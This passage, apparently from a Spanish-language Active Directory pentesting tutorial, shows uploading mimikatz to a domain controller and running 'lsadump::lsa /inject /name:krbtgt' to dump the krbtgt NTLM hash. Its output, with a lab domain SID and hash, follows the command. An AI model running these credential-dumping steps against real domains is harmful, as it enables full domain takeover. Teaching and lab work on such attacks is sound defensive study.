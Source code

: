 ### Método 1

Para desplegar este ataque en primer lugar creamos un directorio en `C:\Windows\Temp\test` y subimos el binario de 64 bits `mimikatz.exe` al DC desde nuestra máquina de atacante:

<img src="/assets/Tips/AD/mimi.png">

Seguimos ejecutando el binario e introduciendo el comando `lsadump::lsa /inject /name:krbtgt` con el objetivo de dumpear la información del usuario `krbtgt` para poder efectuar un `Pass the Ticket`.

```bash
C:\Windows\Temp\test> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

 
mimikatz # lsadump::lsa /inject /name:krbtgt
mimikatz # Domain : S4VICORP / S-1-5-21-3555876161-3548447794-446757401

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : 6ddc8cad151c417205e1097522d904c2
    LM   : 
```